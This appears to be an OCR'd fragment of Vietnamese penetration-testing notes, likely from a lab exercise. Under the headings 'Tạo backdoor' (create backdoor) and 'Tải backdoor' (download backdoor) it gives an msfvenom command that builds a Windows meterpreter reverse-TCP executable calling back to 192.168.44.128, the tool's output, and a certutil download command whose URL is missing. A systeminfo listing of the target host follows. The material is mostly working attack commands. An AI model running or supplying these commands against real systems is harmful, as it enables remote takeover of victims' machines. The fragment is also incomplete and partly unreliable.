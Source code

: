 Tạo backdoor:

msfvenom -p windows/x64/meterpreter/reverse_tcp  LHOST=192.168.44.128 LPORT=4445  -f exe > wise.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload

[-] No arch selected, selecting arch: x64 from the payload

No encoder specified, outputting raw payload

Payload size: 510 bytes

Final size of exe file: 7168 bytes

Tải backdoor:

certutil -urlcache -f  wise.exe



[01]: AMD64 Family 25 Model 80 Stepping 0 AuthenticAMD ~3194 Mhz
[02]: AMD64 Family 25 Model 80 Stepping 0 AuthenticAMD ~3194 Mhz
[03]: AMD64 Family 25 Model 80 Stepping 0 AuthenticAMD ~3194 Mhz
[01]: KB4601554
[02]: KB5013887
[03]: KB5000736
[04]: KB5015807
[05]: KB5014671
[06]: KB5001405
[01]: Intel(R) 82574L Gigabit Network Connection
[01]: 192.168.44.145
[02]: fe80::d84f:eb80:5807:1704